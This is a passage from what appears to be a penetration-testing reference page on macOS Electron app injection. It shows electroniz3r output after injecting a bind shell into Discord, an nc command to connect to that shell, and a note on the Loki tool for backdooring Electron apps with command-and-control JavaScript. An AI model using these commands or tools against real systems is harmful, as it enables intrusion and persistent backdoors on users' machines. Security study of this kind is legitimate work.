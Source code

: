 ```
You can now kill the app using `kill -9 57739

# Get a shell inside discord
## For more precompiled-scripts check the code
./electroniz3r inject "/Applications/Discord.app" --predefined-script bindShell

/Applications/Discord.app started the debug WebSocket server
The webSocketDebuggerUrl is: ws://127.0.0.1:13337/8e0410f0-00e8-4e0e-92e4-58984daf37e5
Shell binding requested. Check `nc 127.0.0.1 12345
```
```

- [[https://github.com/boku7/Loki|https://github.com/boku7/Loki]]

Loki was designed to backdoor Electron applications by replacing the applications JavaScript files with the Loki Command & Control JavaScript files.

## References

- [[https://www.electronjs.org/docs/latest/tutorial/fuses|https://www.electronjs.org/docs/latest/tutorial/fuses]]
- [[https://www.trustedsec.com/blog/macos-injection-via-third-party-frameworks|https://www.trustedsec.com/blog/macos-injection-via-third-party-frameworks]]
- [[https://github.com/electron/electron/security/advisories/GHSA-7m48-wc93-9g85|https://github.com/electron/electron/security/advisories/GHSA-7m48-wc93-9g85]]
- [[https://www.electronjs.org/blog/statement-run-as-node-cves|https://www.electronjs.org/blog/statement-run-as-node-cves]]
- [[https://m.youtube.com/watch?v=VWQY5R2A6X8|https://m.youtube.com/watch?v=VWQY5R2A6X8]]



